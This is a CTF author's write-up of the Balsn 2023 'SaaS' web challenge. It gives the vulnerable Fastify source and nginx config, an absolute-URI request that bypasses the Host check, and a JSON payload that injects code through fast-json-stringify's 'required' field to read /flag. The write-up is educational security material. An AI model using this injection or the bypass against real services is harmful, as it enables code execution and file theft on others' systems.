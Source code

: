 ```yaml
---
title: '2023 Balsn CTF Web/Saas author Writeup'
disqus: hackmd
tags: note
---
```




# SaaS

<img src="https://hackmd.io/_uploads/r1IqunQ-p.png" width=400>

## Description
:::warning
Author's murmur warning! u can jump to [Overview](#Overview).
:::

- The challenge is inspired from [fastify document](https://fastify.dev/docs/latest/Reference/Validation-and-Serialization)
![](https://hackmd.io/_uploads/SJPMNYz-T.png)
- The official doesn't support dynamic creation of schema validation by default, and fastify only precompile schema validation once when the server startup.
- I try to find the real use case or plugin that support dynamic schema/route creation, and the official doesn't like this proposal. see https://github.com/fastify/help/issues/149
- The package `fast-json-stringify` is used to create validator. Thus, I try to find any dependents which has any use case that creates validator from untrusted user input, and 404 not found.
<img src="https://hackmd.io/_uploads/H1hhd27Wp.png" width=400>
- Also, document mentions this [security notice](https://www.npmjs.com/package/fast-json-stringify?activeTab=readme#user-content-security-notice)
<img src="https://hackmd.io/_uploads/rkWRd2mZ6.png" width=500>
- But it is CTF,impractialty is ok, right? And deadline is approaching... That's make it a service to create dynamic schema!
- An additional part is nginx. Since ginoah estimated about 50~100 solves (`easy+++++++`), i comed up with it  when i was reading document for solving ginoah's 1linenginx.
- Then ginoah and kaibro solved this part as soon as they read it. Only i learned it in 2023.
- Thus, the final difficulty is `easy++++++`.

## Overview

- The challenge is clear, try to find where we can inject code in something like `new Function(...)` when create custom schema validator.

```
const validatorFactory = require('@fastify/fast-json-stringify-compiler').SerializerSelector()()
const fastify = require('fastify')({
  logger: true,
})
const {v4: uuid} = require('uuid')
const FLAG = 'the old one'
const customValidators = Object.create(null, {}) // no more p.p.
const defaultSchema = {
  type: 'object',
  properties: {
    pong: {
      type: 'string',
    },
  },
}
fastify.get(
  '/',
  {
    schema: {
      response: {
        200: defaultSchema,
      },
    },
  },
  async () => {
    return {pong: 'hi'}
  }
)
fastify.get('/whowilldothis/:uid', async (req, resp) => {
  const {uid} = req.params
  const validator = customValidators[uid]
  if (validator) {
    return validator({[FLAG]: 'congratulations'})
  } else {
    return {msg: 'not found'}
  }
})

fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body)
  customValidators[nid] = validatorFactory({schema})
  return {route: `/whowilldothis/${nid}`}
})
fastify.listen({port: 3000, host: '0.0.0.0'}, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

- and we have to route request to `server_name` like `*.saas` but with HTTP header set to `Host: easy++++++`
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

## Solution
 
### Nginx
 - Nginx part is trivial, from [document](http://nginx.org/en/docs/http/ngx_http_core_module.html#var_host)
![](https://hackmd.io/_uploads/Byh40FMWa.png)
- Nginx match `server_name` with `$host`, and it can be  set by `request line`. Then below request bypass the check.
    ```
    GET http://any.saas/ HTTP/1.1
    Host: easy++++++
    ```

### fast-json-stringify

- open vscode, start debugger, trace code.
- I found `requiredProperty` 
```
  // handle extraneous required fields
  for (const requiredProperty of required) {
    if (requiredWithDefault.indexOf(requiredProperty) !== -1) continue
    code += `if (obj['${requiredProperty}'] === undefined) throw new Error('"${requiredProperty}" is required!')\n`
  }
```
![](https://hackmd.io/_uploads/rylkLWcGWT.png)
![](https://hackmd.io/_uploads/ByYNb5G-a.png)

- Then
```
POST http://a.saas/register HTTP/1.1 
Host: easy++++++
Content-Type: application/json 
Content-Length: 104

{"$id":"aaa","required":["'+global.process.mainModule.constructor._load('fs').readFileSync('/flag')+'"]}


HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Tue, 10 Oct 2023 08:59:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 63
Connection: keep-alive

{"route":"/whowilldothis/1c6c400d-94c6-438b-a410-7828f2e05aad"}
```
![](https://hackmd.io/_uploads/HkB6GqMZT.png)
